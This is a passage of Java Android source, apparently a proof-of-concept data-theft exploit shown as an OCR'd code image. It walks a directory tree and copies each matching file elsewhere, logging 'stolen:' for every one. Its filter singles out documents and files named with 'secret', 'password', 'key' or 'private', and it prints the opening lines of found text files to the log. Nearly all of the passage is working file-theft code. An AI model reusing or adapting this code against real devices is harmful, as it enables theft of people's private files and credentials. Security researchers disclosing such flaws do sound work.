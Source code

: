 ```java
                    String rel = cur.getAbsolutePath().substring(rootPath.length());  
                    if (rel.startsWith("/")) rel = rel.substring(1);  
                    File dst = new File(dstRoot, rel);  
                    dst.getParentFile().mkdirs();  
  
                    try (InputStream in = new FileInputStream(cur);  
                         OutputStream out = new FileOutputStream(dst)) {  
                        in.transferTo(out);  
                        Log.i("PoC", "stolen: " + cur.getName());  
                        count++;  
                    } catch (IOException e) {  
                        Log.w("PoC", "copy failed: " + cur.getName());  
                    }  
                }            } catch (SecurityException ignored) {}  
        }        return count;  
    }  
  
    // just for poc examples  
    private boolean isInteresting(File f) {  
        if (f == null || !f.exists() || f.length() == 0) return false;  
        if (f.length() > 10 * 1024 * 1024) return false;  
        String n = f.getName().toLowerCase();  
        return n.endsWith(".txt") || n.endsWith(".pdf") ||  
                n.endsWith(".doc") || n.endsWith(".docx") ||  
                n.contains("secret") || n.contains("password") ||  
                n.contains("key") || n.contains("private");  
    }  
  
    private void previewTxts(File dir) {  
        List<File> txtFiles = listTxt(dir);  
        int shown = 0;  
        for (File f : txtFiles) {  
            if (shown >= 3) break;  
            Log.i("PoC", "=== " + f.getName() + " ===");  
            try (BufferedReader br = new BufferedReader(new FileReader(f))) {  
                for (int i = 0; i < 8; i++) {  
                    String l = br.readLine();  
                    if (l == null) break;  
                    Log.i("PoC", "   " + l);  
                }  
            } catch (IOException ignored) {}  
            Log.i("PoC", "=== end ===");  
            shown++;  
        }  
    }  
    private List<File> listTxt(File d) {  
        List<File> l = new ArrayList<>();  
        if (d == null || !d.exists()) return l;  
        File[] files = d.listFiles();  
        if (files != null) {  
            for (File f : files) {  
                if (f.isDirectory()) l.addAll(listTxt(f));  
                else if (f.getName().toLowerCase().endsWith(".txt")) l.add(f);  
            }  
        }        return l;  
    }  
  
    private void cleanup() {  
        try {  
            unregisterReceiver(rx);  
        } catch (Exception ignored) {}  
        try {  
```